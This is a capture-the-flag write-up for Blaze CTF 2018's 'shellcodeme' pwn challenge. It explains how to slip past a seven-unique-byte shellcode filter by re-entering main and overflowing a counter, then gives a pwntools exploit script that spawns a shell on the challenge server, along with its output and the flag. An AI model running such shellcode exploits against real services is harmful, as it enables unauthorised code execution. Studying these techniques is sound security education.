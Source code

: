 [](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme (pwn-420)

```
Can you please smoke this?

nc shellcodeme.420blaze.in 420

Author : aweinstock

Solves : ~60
```

This challenge had a hard version too. The way I exploited this chall worked in the hard one too. So 2 flags for the work of one.
Source code was provided.

```c
// gcc -zexecstack -Os shellcodeme.c -o shellcodeme
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define BUF_SIZE (0x4096 & ~(getpagesize()-1))

int main() {
    setbuf(stdout, NULL);
    unsigned char seen[257], *p, *buf;
    void (*f)(void);
    memset(seen, 0, sizeof seen);
    buf = mmap(0, BUF_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Shellcode?");
    fgets(buf, BUF_SIZE, stdin);
    fflush(stdin);
    for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
    if(seen[256] > 7) {
        puts("Shellcode too diverse.");
        _exit(1);
    } else {
        *(void**)(&f) = (void*)buf;
        f();
        _exit(0);
    }
}
```


4 rwx pages are mmaped on which we can copy our input(0x4000). The only catch is the shellcode can't contain more than 7 unique bytes.

```c
for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
```

This code iterates through each input byte and sums up the number of unique bytes in the shellcode. The `seen` table is very important for my strategy of exploitation.

![jmp](jmp.png)

At `0x40072d` the control is transferred to rbp using a `call`. I first tried to look at the context on that state and then use the registers to make a read `syscall` on an rwx page in the libc. However with the restriction in place I could not successfully jump to the page.

The next thought I had was to restart the execution of main such that we can bypass the check in place.

![exp](exp.png)

As I noticed that `memset` operation is done on `0x400699`,once the `seen` table has initialized we can skip doing it again in the second run. Jumping to anywhere after the memset operation should work. If we are able to corrupt the 256 byte count table in a way that unique count calculated is in our control then that would let us run arbirary code in the next run. So in the first run we can execute 'push' to setup the stack in such a way that seen[256] is overflowed back to < 7 in the next run.

Here's how I did it in 7 unique bytes:
    + `pop` the saved rip from the stack to a register(rbx) (+1 unique byte)
    + `dec` the 32bit variant of that register to make it 0x4006d2  (+2 unique bytes)
    + spray the stack by `push`ing the register to setup an already filled `seen`  (+1 unique bytes)
    + `inc rsp` to align `seen[256]` with 0xd2. will overflow this in the next run  (+2 unique bytes)
    + `ret` to get input again to the same page  (+1 unique bytes)
    + input a shellcode such that seen[256] is overflowed back to 0


```
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm("pop rbx; "+("dec rbx; "*(0x72f-0x6d2))+("push rbx; "*64)+"inc rsp; jmp rbx")
payload2 = asm(shellcraft.amd64.linux.sh())+"".join(map(chr, range(100,157)))

s = remote("shellcodeme.420blaze.in",420)
raw_input()

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()
```


Output
```bash
$ python shellcodeme.py 
[+] Opening connection to shellcodeme.420blaze.in on port 420: Done

[*] Switching to interactive mode
Shellcode?
$ id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
$ cat flag
blaze{g0lf3d_y0ur_sh3llc0d3's_un1qu3_byt3z}
$ 
[*] Closed connection to shellcodeme.420blaze.in port 420
```

